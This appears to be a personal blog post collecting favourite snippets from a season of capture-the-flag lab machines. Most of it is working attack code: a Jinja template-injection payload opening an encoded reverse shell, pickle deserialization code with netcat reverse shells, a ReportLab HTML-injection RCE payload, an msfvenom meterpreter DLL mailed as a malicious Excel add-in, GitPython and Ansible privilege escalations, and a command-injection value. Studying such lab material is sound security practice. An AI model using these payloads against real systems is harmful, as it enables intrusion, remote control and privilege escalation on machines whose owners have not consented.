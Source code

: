 ```yaml
---
title: "Season Summary"
date: 2024-08-21
---
```



Overall I learned a lot and these are some of my favorite snippets that i definitely will be keeping. SPOILERS REMOVED don't worry.

## SSTI With Jinja

Context: Obtaining Foothold using Server Side Template Injection with Jinja

I can see that I can by pass with this payload

```html
invoice_id=&form_type=scannable_invoice&qr_link=https%3A%2F%2Fbruhaps.htb%2Fstatic%2Fqr_code%2Fqr_code_5868828307.png" {{'><script>;</script>'|safe}}
```

### Final SSTI Payload
```
invoice_id=&form_type=scannable_invoice&qr_link={% with a = request["application"]["\x5f\x5fglobals\x5f\x5f"]["\x5f\x5fbuiltins\x5f\x5f"]["\x5f\x5fimport\x5f\x5f"]("os")["popen"]("echo MDwmMTk2O2V4ZWMgMTk2PD4vZGV2L3RjcC8xMC4xMC4xNC43LzQ0NDQ7IC9iaW4vc2ggPCYxOTYgPiYxOTYgMj4mMTk2 | base64 -d | bash")["read"]() %} a {% endwith %}
```

On attack machine
```bash
┌──(kali㉿kali)-[~]
└─$ nc -lvnp 4444
listening on [any] 4444 ...

connect to [10.10.14.7] from (UNKNOWN) [10.10.11.12] 46716

ls
app.py
static
templates
python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@cheeese:/opt/app$ ls
```


---
## Pickle RCE

Context: This was a machine learning server, and I was a low privilege user related to the ML training.

https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/

```
import pickle import base64 import os class RCE: def __reduce__(self): cmd = ('rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | nc 10.0.0.1 4444 > /tmp/f') return os.system, (cmd,) if __name__ == '__main__': pickled = pickle.dumps(RCE()) print(base64.b64encode(pickled)) # or print(base64.urlsafe_b64encode(pickled))
```

### Final Python RCE

```python
from clearml import Task
import pickle,os

class RunCommand:
    def __reduce__(self):
        return (os.system, ('rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/bash -i 2>&1|nc 10.10.14.16 4444 >/tmp/f',))


command = RunCommand()


task = Task.init(project_name='Black Swan', task_name='pickle_artifact_upload', tags=["review"], output_uri=True)

task.upload_artifact(name='pickle_artifact', artifact_object=command, retries=2, wait_on_upload=True, extension_name=".pkl")


with open('pickle_artifact.pkl','wb') as f:
    pickle.dump(command,f)

```

---
## RCE Via Html Injection

Context: Obtain Foothold using Htmli

https://github.com/Sudistark/BB-Writeups/blob/main/2023/CVE-2023-33733-rce-via-htmli-in-reportlab.md

Start Listener

```
nc -lvnp 4444
```

Payload used for rev shell

```html
ASSS<font color="[[[getattr(pow, Word('__globals__'))['os'].system('powershell -e JABjAGwAaQBlBASE64PAYLOADAKQA=') for Word in [ orgTypeFun( 'Word', (str,), { 'mutated': 1, 'startswith': lambda self, x: 1 == 0, '__eq__': lambda self, x: self.mutate() and self.mutated < 0 and str(self) == x, 'mutate': lambda self: { setattr(self, 'mutated', self.mutated - 1) }, '__hash__': lambda self: hash(str(self)), }, ) ] ] for orgTypeFun in [type(type(1))] for none in [[].append(1)]]] and 'red'">
                exploit
</font>
```

---
## Sending a malicious XLL via email

Context: Obtaining Foothold by sending an email allowing excel files. 

https://github.com/edparcell/HelloWorldXll

Generate payload with msfvenom
```bash
 msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.15.68 LPORT=4444 -f dll -o ex.dll


cp ex.dll ex.xll
```


Send the malicious `.xll`
```bash
swaks --to accounts@BRUH.htb --from assinine@BRUH.htb --server MAINFRAME.BRUH.htb --port 25 --header "Subject: test" --body "test" --attach @ex.xll
```


```cmd
C:\>whoami
whoami
AHHHHH YOU THOUGHT
```

---

## Priv Esc with GitPython

Context: User Foothold obtaining root.

Prod Perms

```
User prod may run the following commands on BRUH:
    (root) /usr/bin/python3 /opt/internal_apps/clone_changes/clone_prod_change.py *
```

Contents of `clone_prod_change.py`

```python
#!/usr/bin/python3

import os
import sys
from git import Repo

os.chdir('/opt/internal_apps/clone_changes')

url_to_clone = sys.argv[1]

r = Repo.init('', bare=True)
r.clone_from(url_to_clone, 'new_changes', multi_options=["-c protocol.ext.allow=always"])
```

https://github.com/gitpython-developers/GitPython/issues/1515
https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858


```
'ext::sh -c chmod% 4777% /bin/bash'
```


## Root

```
prod@linux:~$ /bin/bash -p
bash-5.1# id
uid=1000(prod) gid=1000(prod) euid=0(root) groups=1000(prod)
bash-5.1# cat /root/root.txt
SECRET
bash-5.1# 
```

---

## Root with Ansible

Context: I had perms for Ansible runner.
### Find Ansible Hash
```C
// Version : 1 #include <stdio.h> #include <stdlib.h> #include <string.h> #include <dirent.h> #include <openssl/md5.h> #define INVENTORY_FILE "/opt/playbooks/inventory.ini" #define PLAYBOOK_LOCATION "/opt/playbooks/" #define ANSIBLE_PLAYBOOK_BIN "/usr/bin/ansible-playbook" #define ANSIBLE_GALAXY_BIN "/usr/bin/ansible-galaxy" #define AUTH_KEY_HASH "0feda17076d793c2ef2870d7427ad4ed" int check_auth(const char* auth_key) { unsigned char digest[MD5_DIGEST_LENGTH]; MD5((const unsigned char*)auth_key, strlen(auth_key), digest); char md5_str[33]; for (int i = 0; i < 16; i++) { sprintf(&md5_str[i*2], "%02x", (unsigned int)digest[i]); }
```

### Crack the Ansible hash
```
hashcat -a3 -m0 myhash.txt UH4565jkl?u?u?u?u --self-test-disable
```

```
HASH:RESult
```

### Root Access

Create json file and insert command injection.

```json
{
 "run": {
    "action": "install",
    "role_file": "archive.tar;bash"},
 "auth_code": "CRACKEDRESULT"
}
```

*fin*
